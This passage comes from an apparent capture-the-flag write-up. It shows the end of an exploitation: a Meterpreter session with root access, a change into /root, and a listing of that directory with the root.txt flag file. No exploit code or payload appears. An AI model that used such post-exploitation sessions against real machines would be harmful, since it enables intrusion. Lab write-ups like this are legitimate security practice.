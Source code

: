 meterpreter >
{% endvimhl %}

It worked! now we can get the root flag
{% vimhl bash %}
meterpreter > cd /root
meterpreter > ls
Listing: /root
==============
Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
020666/rw-rw-rw-  0     cha   2023-10-14 07:10:52 -0400  .bash_history
100644/rw-r--r--  3106  fil   2021-10-15 06:06:05 -0400  .bashrc
040700/rwx------  4096  dir   2023-04-27 12:09:20 -0400  .cache
040755/rwxr-xr-x  4096  dir   2023-04-27 12:35:32 -0400  .local
100644/rw-r--r--  161   fil   2019-07-09 06:05:50 -0400  .profile
040755/rwxr-xr-x  4096  dir   2023-08-25 11:14:21 -0400  .scripts
100644/rw-r--r--  66    fil   2023-08-25 11:14:35 -0400  .selected_editor
040700/rwx------  4096  dir   2023-04-27 12:07:06 -0400  .ssh
100644/rw-r--r--  39    fil   2023-08-08 07:30:03 -0400  .vimrc
100644/rw-r--r--  165   fil   2023-08-08 07:53:02 -0400  .wget-hsts
100640/rw-r-----  33    fil   2023-10-14 07:11:11 -0400  root.txt
{% endvimhl %}
